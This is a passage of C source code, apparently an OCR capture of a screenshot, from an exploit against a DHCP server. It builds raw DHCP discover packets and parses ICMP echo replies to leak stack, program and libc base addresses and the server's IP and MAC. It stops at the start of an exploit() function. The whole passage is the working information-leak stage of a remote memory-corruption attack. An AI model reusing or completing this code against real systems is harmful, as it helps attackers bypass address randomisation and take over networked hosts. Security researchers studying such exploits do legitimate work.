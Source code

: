 ```c
    ethh = (struct ethhdr *)buf;
    iph = (struct iphdr *)(buf + sizeof(struct ethhdr));
    icmph = (struct icmphdr *)((uint8_t *)iph + sizeof(struct iphdr));

    return (!memcmp(ethh->h_dest, "\xff\xff\xff\xff\xff\xff", ETH_ALEN))
        && (iph->protocol == IPPROTO_ICMP) 
        && (icmph->type == ICMP_ECHO);
}

uint64_t libc_base = 0,
         elf_base = 0,
         stack_addr = 0;

void leak() {
    uint8_t *buf = NULL;
    size_t buf_len = 0;

    buf = malloc(0x1000);

    do {
        sleep(2);
        xid = random();
        memset(buf, 0, 0x1000);
        create_dhcp_discover_packet(buf, &buf_len, src_addr_in, 0);
        send_raw_pkt(buf, buf_len);

        memset(buf, 0, 0x1000);
        do {
            buf_len = receive_raw_pkt(buf, 0x1000);
        } while (!is_icmp_echorequest(buf, buf_len));
        hex_dump64(buf, buf_len);
        stack_addr = *(uint64_t *)(buf + 0x32);
        elf_base = *(uint64_t *)(buf + 0x3a) - 0x1c168;
    } while (stack_addr < 0x7f0000000000);

    sleep(2);
    xid = random();
    memset(buf, 0, 0x1000);
    create_dhcp_discover_packet(buf, &buf_len, src_addr_in, 1);
    send_raw_pkt(buf, buf_len);

    memset(buf, 0, 0x1000);
    do {
        buf_len = receive_raw_pkt(buf, 0x1000);
    } while (!is_icmp_echorequest(buf, buf_len));
    hex_dump64(buf, buf_len);
    libc_base = *(uint64_t *)(buf + 0x3a) - 0x9a0b1;

    server_addr_in.sin_addr.s_addr = *(uint32_t *)(buf + 0x1a);
    printf("[*] Server IP Address: %s\n", inet_ntoa(server_addr_in.sin_addr));
    memcpy(server_mac, buf + 6, ETH_ALEN);
    printf("[*] Server MAC Address: %02x:%02x:%02x:%02x:%02x:%02x\n",
           server_mac[0], server_mac[1], server_mac[2],
           server_mac[3], server_mac[4], server_mac[5]);
    
    printf("[+] leak libc_base: %p\n", (void *)libc_base);
    printf("[+] leak elf_base: %p\n", (void *)elf_base);
    printf("[+] leak stack_addr: %p\n", (void *)stack_addr);
    free(buf);
}

void exploit() {
    uint8_t *buf = NULL;
```